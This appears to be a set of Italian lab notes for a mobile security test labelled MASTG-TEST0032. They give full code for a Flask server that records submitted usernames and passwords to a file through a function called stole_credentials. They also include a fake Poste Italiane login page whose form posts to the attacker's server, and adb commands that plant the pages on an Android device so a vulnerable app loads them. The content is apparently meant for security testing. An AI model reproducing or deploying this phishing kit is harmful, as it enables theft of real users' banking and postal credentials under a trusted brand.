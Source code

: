 MASTG-TEST0032 ATTACK
- creare file app.py:
    from flask import Flask,request,render_template
    app = Flask(__name__)
    @app.route('/')
    def home():
        return render_template("home.html")
    @app.route('/login', methods=['GET','POST'])
    def attack():
        error = None
        if request.method == 'POST':
            name=request.form['username']
            pwd=request.form['pwd']
            if name!= "" or pwd!="":
                stole_credentials(name,pwd)
            else:
                error = 'Invalid username/password'
        else:
            return render_template("login.html")
        # the code below is executed if the request method
        # was GET or the credentials were invalid
        return render_template('login.html', error=error)
    def stole_credentials(user,pwd):
        file_path = 'example.txt'
        # Open the file in 'write' mode ('a')
        # This will create a new file if it doesn't exist or truncate the file if it exists
        with open(file_path, 'a+') as file:
            # Write content to the file
            file.write("Username:"+user+" Pwd: "+pwd+"\n")
        return render_template("home.html",name=user)
- creare cartella templates ed inserire i seguenti file.
- creare file home.html:
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>EXPLOIT</title>

    </head>
    <body>
        <p>For the login on Poste follow this <a href="login.html">link</a></p>
            
    </body>
    </html>
- creare file login.html:
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>EXPLOIT</title>

    </head>
    <body>

        <h1>Poste Italiane</h1>
        <h2>Accedi o Registrati</h2>
        <form action="http://10.0.2.2:5000/login" method="POST">
            <input type="text" name="username" id="username" placeholder="Username o Email"><br>
            <input type="text" name="pwd" id="password" placeholder="Password"><br>
            <input type="submit" value="login" >
        </form>
            
    </body>
    </html>

- pushare nel dispositivo mobile in /sdcard/Android/data i file home.html e login.html:
    adb push home.html /sdcard/Android/data
    adb push login.html /sdcard/Android/data
- runnare server : flask --app app run
- lanciare applicazione.